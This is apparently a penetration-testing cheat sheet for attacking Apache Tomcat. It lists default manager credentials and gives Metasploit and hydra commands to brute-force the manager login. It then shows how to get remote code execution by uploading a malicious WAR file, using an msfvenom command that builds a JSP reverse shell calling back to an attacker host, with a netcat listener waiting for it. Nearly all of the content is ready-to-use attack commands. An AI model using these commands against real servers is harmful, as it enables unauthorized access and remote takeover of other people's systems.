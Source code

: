 # No Account
## default creds
admin:admin
tomcat:tomcat
admin:
admin:s3cr3t
tomcat:s3cr3t
tomcat:s3cret
admin:tomcat

## bruteforce
```bash
# metasploit
msf> use auxiliary/scanner/http/tomcat_mgr_login

# hydra
hydra -L users.txt -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -f 10.10.10.64 http-get /manager/html
```

## Passwords Backtrace disclosure
/auth.jsp

# With Account
## Manager - RCE
>You will only be able to deploy a **WAR** file if you have enough privileges (roles: admin, manager and manager-script). Those details can be find under tomcat-users.xml usually defined in /usr/share/tomcat9/etc/tomcat-users.xml (it vary between versions)

### PoC
```bash
# metasploit
use exploit/multi/http/tomcat_mgr_upload
msf exploit(multi/http/tomcat_mgr_upload) > set rhost <IP>
msf exploit(multi/http/tomcat_mgr_upload) > set rport <port>
msf exploit(multi/http/tomcat_mgr_upload) > set httpusername <username>
msf exploit(multi/http/tomcat_mgr_upload) > set httppassword <password>
msf exploit(multi/http/tomcat_mgr_upload) > exploit

# msfvenom - manually
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.41 LPORT=8083 -f war -o revshell.war
# upload it to tomcat and access it : /revshell/
# host
nc -lvnp 8083
```
